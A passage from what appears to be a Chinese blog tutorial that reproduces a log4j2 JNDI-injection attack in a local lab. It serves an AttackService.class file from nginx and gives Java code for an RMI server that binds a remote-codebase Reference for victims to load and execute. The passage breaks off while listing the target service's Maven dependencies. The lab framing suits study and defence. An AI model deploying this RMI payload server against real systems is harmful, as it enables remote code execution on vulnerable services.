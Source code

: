 启动nginx;

测试访问：[http://127.0.0.1:80/AttackService.class](https://links.jianshu.com/go?to=http%3A%2F%2F127.0.0.1%3A80%2FAttackService.class) 可以下载到文件，这一步就算成功

### 搭建rmi服务

```java
package com.kpy.rmi;

import com.sun.jndi.rmi.registry.ReferenceWrapper;

import javax.naming.Reference;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;

/**
 * Copyright © 2022灼华. All rights reserved.
 *
 * @author create by hyq
 * @version 1.0
 * @date 2022/5/7
 * @description:
 */
public class RmiServerRun {

    public static void main(String[] args) {
        Registry registry = null;
        try {
            registry = LocateRegistry.createRegistry(1098);
            // 远程连接到nginx http://127.0.0.1:80/AttackService.class 执行该脚本
            Reference reference = new Reference("AttackService",
                    "AttackService", "http://192.168.101.11:80/");
            ReferenceWrapper referenceWrapper = new ReferenceWrapper(reference);
            registry.bind("attack", referenceWrapper);
            System.out.println("rmi服务端启动成功！");
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```

这里启用1098端口的rmi服务，启动后绑定该端口。

192.168.101.11 是我本地的局域网端口，这里可以尝试使用127.0.0.1也是可以的

## 被攻击服务

搭建一个maven 工程springboot服务，pomz中dependencies文件如下

```xml
<dependencies>
    <dependency>
        <groupId>org.springframework.boot</groupId>
        <artifactId>spring-boot-starter-web</artifactId>
        <exclusions>
            <!-- 排除掉logging，不使用logback，改用log4j2 -->
            <exclusion>
                <groupId>org.springframework.boot</groupId>
                <artifactId>spring-boot-starter-logging</artifactId>
            </exclusion>
        </exclusions>
    </dependency>

    <dependency>
```